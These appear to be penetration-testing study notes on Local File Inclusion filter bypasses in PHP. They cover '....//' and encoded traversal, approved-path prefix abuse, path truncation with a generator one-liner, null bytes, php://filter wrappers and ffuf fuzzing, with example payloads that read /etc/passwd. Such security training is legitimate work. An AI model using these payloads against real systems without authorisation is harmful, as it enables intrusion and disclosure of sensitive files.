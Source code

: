## Basic Bypasses
### Non-Recursive Path Traversal Filters
```php
$language = str_replace('../', '', $_GET['language']);
```
Replaces `../`
Can still use `....//`
### Encoding 
`../` encodes into `%2e%2e%2f`
Need to encode all characters
### Approved Paths
```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
* Find approved paths by examining requests from existing forms.
* Fuzz web directories under the same path
`./languages../../../../etc/passwd`

### Appended Extension 
#### Path Truncation 
Earlier versions of PHP strings have a maximum length of 4096 characters:
```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Automate the creation:
```shell
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```

#### Null Bytes 
PHP before 5.5 were vulnerable to null byte injection.
Adding `%00` at the end of the string would prevent PHP interpreting anything after this

## PHP Filters
### Input Filters
* PHP wrappers allow access to different I/Os streams at the application level
* Example wrapper streams:
	* `php://filter/`
* Main wrapper fields:
	* `Resource` and `read`

* Useful ones are [convert.base64-encode](https://www.php.net/manual/en/filters.convert.php)and [Conversion Filters](https://www.php.net/manual/en/filters.convert.php)
#### Fuzz for PHP files
```shell
 ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```
Can use web pages with error codes `301, 302 an 403`
